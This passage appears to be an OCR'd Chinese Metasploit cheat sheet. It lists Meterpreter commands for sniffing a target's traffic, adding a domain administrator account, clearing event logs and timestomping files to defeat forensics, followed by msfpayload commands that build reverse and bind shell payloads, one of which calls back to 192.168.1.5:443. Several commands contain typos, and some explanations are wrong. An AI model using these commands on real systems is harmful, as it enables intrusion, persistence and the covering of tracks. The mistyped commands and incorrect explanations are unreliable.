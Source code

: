 列出目标主机所有开放的网络接口。

sniffer_dump interfaceID pcapname

在目标主机上启动嗅探。

sniffer_start interfaceID packet_buffer

在目标主机上针对特定范围的数据包缓冲区启动嗅探。

sniffer_stats interfaceID

获取正在实施嗅探网络接口的统计数据

sniffer_stop interfaceID

停止嗅探。

add_user username password -h ip

在远程目标主机上添加一个用户。

add_group_user “Domain Adimins”username -h ip

将用户添加到目标主机的域管理员组中。

clearev

清除目标主机上的日志记录。

timestomp

修改文件属性，例如修改文件的创建时间（反取证调差）。

reboot

重启目标主机。

3.MSFpayload命令

msfpayload -h

MSFpayload 的帮助信息。

msfpayload windows/meterpreter/bind_tcp O

列出所有可用的攻击载荷。

msfpayload windows/metarpreter/bind_tcp O.

列出所有windows/meterpreter/bind_tcp 下攻击载荷的配置项（任何攻击载荷都是可以配置的）。

msfpayload windows/metaerpreter/reverse_tcp LHOST=192.168.1.5 LPORT=443 X>payload.exe

创建一个metarpreter的reverse_tcp 攻击载荷回连到192.168.1.5的443端口，将其保存为名为payload.exe的windows可执行程序。

msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=443 R>payload.ray

与上面生成同样的攻击载荷，到导成原始格式的文件，该文件将在后面的MSFencode中使用。

msfpayload windows/meterpreter/bind_tcp LPORT=443 C>payload.c

与上面生成同样的攻击载荷，但导出成C格式的shellcode。

msfpayload windows/meterpreter/bind_tcp LPORT=443 J>payload.java
